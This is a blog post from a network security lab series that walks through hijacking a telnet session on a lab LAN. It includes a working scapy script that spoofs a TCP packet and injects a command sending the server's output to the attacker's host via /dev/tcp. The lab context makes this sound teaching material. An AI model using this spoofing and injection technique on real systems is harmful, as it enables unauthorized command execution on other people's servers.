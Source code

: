+++
title = "TCP Attack Lab 2 - Hijack"
date = "2023-04-30"
description = "Hijacking a TCP connection."

tags = ["network","security","writeups",]
+++


We hijack a TCP connection.

In the first part of this series, we conducted a TCP Reset attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In this second installment, we will hijack the `telnet` connection and execute an arbitrary command.


# Setup

The set up is the same as the [previous post](/blog/posts/tcp-attack-lab/0-overview).

 
# Hijacking a `telnet` Connection

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server execute an arbitrary command on our behalf.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial screen capture"](/blog/images/tcp-hijacking/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet connection"](/blog/images/tcp-hijacking/telnet-init.png)

The telnet connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark screen capture"](/blog/images/tcp-hijacking/wireshark-data.png)

Using Wireshark to construct our hijack packet.

---


## Brief: `netcat`

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat init"](/blog/images/tcp-hijacking/netcat-init.png)

Setting up a TCP server using netcat to see the output of our hijack attack.

---


# Running the exploit

The following code will send our hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r hostname > /dev/tcp/10.9.0.1/9090 \r"

	pkt = ip/tcp/data

	print("SENDING HIJACK PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement number as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-hijacking/python-attack.png)

Running the attack program with arguments for source port, sequence, and acknowledgement numbers.

---

The `netcat` TCP server we established on port 9090 displays the output from the `hostname` command run on the server. 

!["netcat after"](/blog/images/tcp-hijacking/netcat-after.png)

The TCP server displays the hostname of the server.

---

Which we can verify matches User 2's hostname. 

!["result"](/blog/images/tcp-hijacking/hostname.png)

Hostname of the telnet server, User 2

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

We explored the TCP protocol in greater depth, hijacking a TCP connection between two users on the same LAN as the attacker and executing an arbitrary command.

In the final installment of this series, we will go a step further and execute a reverse shell using the TCP hijacking technique presented here.


### _Updated: April 30, 2023_